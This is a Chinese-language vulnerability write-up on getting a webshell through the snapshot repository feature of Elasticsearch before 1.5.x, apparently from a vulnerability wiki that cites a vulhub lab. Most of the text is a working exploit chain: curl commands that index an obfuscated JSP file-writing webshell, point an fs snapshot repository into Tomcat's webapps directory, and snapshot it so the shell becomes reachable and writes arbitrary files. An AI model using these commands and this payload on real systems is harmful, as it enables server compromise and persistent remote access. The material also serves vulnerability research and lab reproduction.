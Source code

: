 Elasticsearch 1.5.x 后台getshell
================================

一、漏洞简介
------------

ElasticSearch具有备份数据的功能，用户可以传入一个路径，让其将数据备份到该路径下，且文件名和后缀都可控。

所以，如果同文件系统下还跑着其他服务，如Tomcat、PHP等，我们可以利用ElasticSearch的备份功能写入一个webshell。

和CVE-2015-5531类似，该漏洞和备份仓库有关。在elasticsearch1.5.1以后，其将备份仓库的根路径限制在配置文件的配置项`path.repo`中，而且如果管理员不配置该选项，则默认不能使用该功能。即使管理员配置了该选项，web路径如果不在该目录下，也无法写入webshell。所以该漏洞影响的ElasticSearch版本是1.5.x以前。

二、漏洞影响
------------

Elasticsearch 1.5.x

三、复现过程
------------

### 测试环境

编译与启动测试环境：

    docker-compose build
    docker-compose up -d

简单介绍一下本测试环境。本测试环境同时运行了Tomcat和ElasticSearch，Tomcat目录在`/usr/local/tomcat`，web目录是`/usr/local/tomcat/webapps`；ElasticSearch目录在`/usr/share/elasticsearch`。

我们的目标就是利用ElasticSearch，在`/usr/local/tomcat/webapps`目录下写入我们的webshell。

### 漏洞复现

首先创建一个恶意索引文档：

    curl -XPOST http://www.0-sec.org:9200/yz.jsp/yz.jsp/1 -d'
    {"<%new java.io.RandomAccessFile(application.getRealPath(new String(new byte[]{47,116,101,115,116,46,106,115,112})),new String(new byte[]{114,119})).write(request.getParameter(new String(new byte[]{102})).getBytes());%>":"test"}
    '

再创建一个恶意的存储库，其中`location`的值即为我要写入的路径。

> 园长：这个Repositories的路径比较有意思，因为他可以写到可以访问到的任意地方，并且如果这个路径不存在的话会自动创建。那也就是说你可以通过文件访问协议创建任意的文件夹。这里我把这个路径指向到了tomcat的web部署目录，因为只要在这个文件夹创建目录Tomcat就会自动创建一个新的应用(文件名为wwwroot的话创建出来的应用名称就是wwwroot了)。

    curl -XPUT 'http://www.0-sec.org:9200/_snapshot/yz.jsp' -d '{
         "type": "fs",
         "settings": {
              "location": "/usr/local/tomcat/webapps/wwwroot/",
              "compress": false
         }
    }'

存储库验证并创建:

    curl -XPUT "http://www.0-sec.org:9200/_snapshot/yz.jsp/yz.jsp" -d '{
         "indices": "yz.jsp",
         "ignore_unavailable": "true",
         "include_global_state": false
    }'

完成！

访问`http://www.0-sec.org:8080/wwwroot/indices/yz.jsp/snapshot-yz.jsp`，这就是我们写入的webshell。

该shell的作用是向wwwroot下的test.jsp文件中写入任意字符串，如：`http://www.0-sec.org:8080/wwwroot/indices/yz.jsp/snapshot-yz.jsp?f=success`，我们再访问/wwwroot/test.jsp就能看到success了：

![](/Users/aresx/Documents/VulWiki/.resource/Elasticsearch1.5.x后台getshell/media/rId26.png)

参考链接
--------

> https://vulhub.org/\#/environments/elasticsearch/WooYun-2015-110216/
